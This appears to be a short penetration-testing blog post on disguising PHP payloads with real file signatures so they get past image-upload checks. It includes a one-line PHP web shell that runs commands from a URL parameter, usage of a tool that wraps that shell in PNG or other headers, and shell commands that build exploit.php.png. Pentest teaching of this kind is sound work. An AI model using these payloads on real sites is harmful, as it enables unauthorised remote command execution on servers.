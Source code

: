 ```yaml
---
layout: post
title: Custom Signature PHP Payloads  
tags:
  - Tool
  - Pentest
---
```


<div class="message">
Easily generating PHP Payloads with Custom file signatures to bypass input sanitization
</div>


What is this? A tip on bypassing input sanitation by changing the payload signature.
This process is generally done in packet analyzer or proxy application like burp but this can be done easily without that.
We will look into two basic ways to achieve this.
<!--more-->
![](/assets/images/cpngh/h2.png)
### Why this works?
PHP generally start interpreting the script wherever `<?php` tag starts so anything gibberish preceding that will not be executed and that's good news for us as we can now append the payload after some file descriptors so that metadata of the file will show whatever we want it to show but it will still be a valid PHP script.

### Methods

#### Python script

Don't worry I have done the hard work for you, you just need to prepare your payload, we will put the burden of signature management to a script.

Actually this is a small project where I am collecting some of the commonly used file signatures from real files (not the internet and file format wikis) this should give all the payload more convincing results.

You can get the project from GitHub [HERE](https://github.com/Saket-Upadhyay/CustomPhpPayloadSignature)

***With custom python script***
<br>
As simple as

```sh
python cupps.py -s png
```
this will create PHP payload `<?php system($_GET['cmd']);?>` with PNG signature. this is one of the commonly  known tricks to bypass most of the basic image upload scenarios.
![](/assets/images/cpngh/cupps.png)


All the available signatures can be seen by the `-h` parameter.

```sh
$ python cupps.py -h

usage: cupps.py [-h] [-s target_signature]

Script to create PHP Payloads with custom file signatures

optional arguments:
  -h, --help            show this help message and exit
  -s target_signature, --signature target_signature
                        accepted inputs : png,jpg,exe,elf,gif,bmp,jar,pdf,iso

~ with <3 by X64M

```
> NOTE: This is an active project as of 15-08-2020 and I am trying to add more signatures to it so feel free to contribute.


***By appending output of `cat`***

This is one of the neat tricks to achieve this.

just do this :

```sh
cat image.png | head -n 3 >>exploit.php.png
```

this will take the image header and will write to the file `exploit.php.png` 

and then

```sh
cat payload.php >>exploit.php.png
```
This will append the payload to the file with an existing image header.

![](/assets/images/cpngh/bt.png)

And that would just do it.

### Conclusion
Well, that's it for this article. See ya in the next one!

Till then stay caffeinated enough!

--

